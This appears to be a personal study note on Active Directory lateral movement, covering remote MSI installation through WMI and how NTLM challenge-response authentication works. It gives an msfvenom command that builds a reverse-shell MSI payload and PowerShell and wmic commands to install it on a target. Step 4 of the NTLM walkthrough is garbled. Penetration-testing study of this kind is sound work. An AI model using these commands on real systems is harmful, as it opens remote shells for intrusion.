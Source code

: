 
## Installing MSI packages through WMI
- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Administrators

MSI, a file format used for installers. If we can copy an MSI package to the target system, we can then use WMI to attempt to install it for us. 
We can create our MSI payload with msfvenom
```sh
msfvenom -p windows/shell_reverse_tcp lhost=tun0 lport=4444 -f msi > myinstaller.msi
```

Once the MSI file is in the target system, we can attempt to install it by invoking the Win32_Product class through WMI:\
```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{
PackageLocation = "C:\Windows\myinstaller.msi"; 
Options = ""; 
AllUsers = $false
}
```

We can also use the following for legacy systems:
```cmd
wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi
```


# Use of Alternate Authentication Material
By alternate authentication material, we refer to any piece of data that can be used to access a Windows account without actually knowing a user's password itself. This is possible because of how some authentication protocols used by Windows networks work.
## [[Active Directory#NetNTLM|NTLM]] Authentication
As mentioned briefly in [[Breaching AD#NTLM Authenticated Services|here]], NTLM authenticates users based on a challenge-response based system. It works by doing the following
![[Pasted image 20241028231708.png]]
1. The client sends an authentication request to the server they want to access.
2. The server generates a random number and sends it as a challenge to the client
3. The client combines his NTLM password hash with the challenge (and other known data) to generate a response to the challenge and sends back the response to the server for verification
4. The server forwards both the challenge and sends it back to the server for verification
5. The domain controller uses the challenge to recalculate the response and compares it to the initial response sent by the client. If they both match, the client is authenticated, otherwise, access is denied. The authentication is sent back to the server.
6. The server forwards the authentication result to the client.
Note, that this process applies when using a domain account. If a local account is used, the server can verify the response to the challenge itself without requiring interaction with the domain controller since it has the password hash stored locally on its SAM.

